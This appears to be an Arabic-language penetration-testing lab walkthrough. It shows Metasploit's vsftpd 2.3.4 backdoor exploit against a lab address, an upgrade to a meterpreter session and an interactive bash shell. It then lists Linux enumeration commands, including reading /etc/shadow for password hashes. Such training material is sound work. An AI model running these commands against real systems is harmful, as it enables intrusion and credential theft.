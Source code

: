 طبعا الان راح نحاول نرفع السيشن الى meterpreter session  
```bash
sessions -u 1 [to upgrade from shell session to meterpreter session]  
```  

طبعا الان ندخل على السيشن وننفذ بعض الاوامر الي راح تفيدنا كمعلومات  
```bash
session -i 2  
```  

الان راح ننفذ بعض الاوامر  
```bash
sysinfo [يعطيك معلومات عن التارقت]  
```  

خلونا نفتح الشيل  
```bash
shell [to open bash shell]  
```  

وو ننفذ بعض الاوامر  
```bash
hostname  
cat /etc/issue  [ Linux distro name and release version ]  
cat /etc/*release  [ Linux distro name and release version ]  
uname -a [ to identify is the version of the Linux kernel running on the target. ]  
lscpu [ identify hardware information regarding the CPU being used on the target system ]  
df -h [list of storage devices attached to the Linux system and information regarding their respective mount points and storage capacity ]  
```  

الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب الثالث الي معنا اليوم هو

Linux: Enumerating Users & Groups
----------------------------------|  

طبعا نفس اللاب السابق ونفس الاستغلال  
```bash
msfconsole  
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 192.72.78.3  
run  
```  

ونشوف انه عطانا شيل الان  

طبعا الشيل الي معنا الان non-interactive راح نخليه interactive عن طريق ال Bash shell  
```bash
/bin/bash -i [to open interactive shell on Linux target]  
```  

طبعا الان راح نشوف بعض اوامر الشيل  
```bash
id [to know your id if you have 0 you have full privilege]  
cat /etc/passwd [to identify all users on target system]  
cat /etc/shadow [to idebtify hashs of each user have password]  
groups [to identify groups]  
lastlog [to identify the all users are logged in and the user has already logon]  
```  
